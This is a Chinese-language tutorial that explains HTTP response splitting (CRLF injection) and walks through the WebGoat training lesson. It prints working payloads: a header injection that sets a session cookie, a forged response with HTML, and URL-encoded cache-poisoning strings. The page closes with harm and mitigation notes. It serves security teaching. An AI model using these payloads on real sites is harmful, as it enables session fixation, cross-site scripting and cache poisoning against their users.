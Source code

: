 ## HTTP响应拆分
HTTP响应拆分漏洞，也叫`CRLF`注入攻击。利用`CR(%0d)`与`LF(%0a)`等特殊字符串进行攻击。HTTP头由很多被`CRLF`组合分离的行构成，每行的结构都是“键：值”。如果用户输入的值部分注入了`CRLF`字符，它有可能改变的HTTP报头结构。

### 漏洞分析
一般网站会在HTTP头中用`Location: http://example.com`这种方式来进行302跳转，所以我们能控制的内容就是`Location:`后面的XXX某个网址。

所以一个正常的302跳转包是这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:23:57 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
```
如果在HTTP头中`Location`它的值变为`http://example.com/WebGoat/attack%0aSet-cookie:PHPSESSID%3Dexample.com`的时候，HTTP返回的头信息会变成下面这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:25:17 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
Set-cookie: PHPSESSID=example.com
```
这样就成功的在http头里面注入了新的key/value。
这样也就可以随意的执行xss攻击了。

所以，可以这样构造一个url请求。
```http
http://example.com/WebGoat/attack%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aSet-cookie:PHPSESSID%3Dexample.com%0aX-XSS-Protection:%200%0aContent-Length:%2049%0a%0a<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```

### WebGoat的HTTP Splitting
课程是两个步骤：
第一步，执行拆分攻击。
第二步，缓存污染，要求篡改HTTP头中的Last‐Modified字段。
#### 工具
- [WebScarab](https://www.owasp.org/index.php/WebScarab)
- [PCE](http://yehg.net/encoding) - PHP Charset Encoder/String Encrypter
需要注意，以下操作过程仅适用于Linux 环境。如果您正在使用Windows，请作相关的修
改。Windows 系统中同时使用CR 和LF 两个字符表示新行。Linux 用户只需要使用LF，Mac OS
用户请使用CR。所以如果您正在使用Windows 系统，请将以下操作过程中所有的%0a 需要
替换成%0d%0a（Windows）或%0d（Mac OS）。

第一步拆分攻击，使用PCE对下面的代码进行URL编码
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47


<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
最后得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2047%0A%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交后得到hacked Q6E79D页面信息。然后点击浏览器后退。
第二步缓存污染，修改Last‐Modified字段：
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 47

<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2047%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交，完成本次课程的所有操作。

### 危害
攻击者可能注入自定义HTTP头。例如，攻击者可以注入会话cookie或HTML代码。这可能会进行类似的XSS（跨站点脚本）或会话固定漏洞。

### 解决方案：
限制用户输入的CR(%0d)和LF(%0a)，或者对CR(%0d)和LF(%0a)字符正确编码后再输出，以防止注入自定义HTTP头。
